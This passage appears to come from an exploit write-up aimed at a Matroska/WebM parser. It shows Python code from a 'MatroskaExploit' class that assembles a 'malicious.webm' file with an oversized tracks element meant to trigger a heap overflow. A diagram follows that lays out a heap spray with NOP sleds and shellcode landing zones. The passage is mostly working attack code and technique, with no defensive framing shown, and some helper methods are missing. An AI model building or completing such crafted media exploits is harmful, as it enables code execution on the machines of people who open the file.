 ```python
    def generate_malicious_webm(self):
        """Generate complete malicious WebM file"""
        
        # File structure
        webm_file = self.ebml_header
        webm_file += self.segment_header
        
        # Tracks element
        tracks_data = self.create_overflow_tracks()
        tracks_element = b"\x16\x54\xAE\x6B"  # Tracks ID
        tracks_element += self.encode_size(len(tracks_data))
        tracks_element += tracks_data
        
        webm_file += tracks_element
        
        return webm_file
    
    def encode_size(self, size):
        """Encode size using EBML variable-length encoding"""
        if size < 0x7F:
            return struct.pack('B', 0x80 | size)
        elif size < 0x3FFF:
            return struct.pack('>H', 0x4000 | size)
        elif size < 0x1FFFFF:
            return struct.pack('>I', 0x200000 | size)[1:]
        else:
            return struct.pack('>Q', 0x1000000000000000 | size)

# Generate exploit file
exploit = MatroskaExploit()
malicious_webm = exploit.generate_malicious_webm()

with open("malicious.webm", "wb") as f:
    f.write(malicious_webm)

print("[+] Malicious WebM file created: malicious.webm")
print(f"[+] File size: {len(malicious_webm)} bytes")
```

### Heap Layout Strategy

The exploitation technique leverages **Matroska's multi-track structure** for precise heap manipulation:

```
Heap Layout Strategy:
┌─────────────────┐
│   Heap Spray    │ ← Multiple small tracks with controlled data
│   (Tracks 1-50) │   (0x1000 bytes each, total ~80KB)
├─────────────────┤
│   Landing Zone  │ ← NOP sleds for reliable execution
│   (NOP + Shell) │   (Multiple copies across spray)
├─────────────────┤
│  Overflow Track │ ← Large track triggering overflow
│   (Track 999)   │   (0x10000 bytes, controlled data)
└─────────────────┘
```
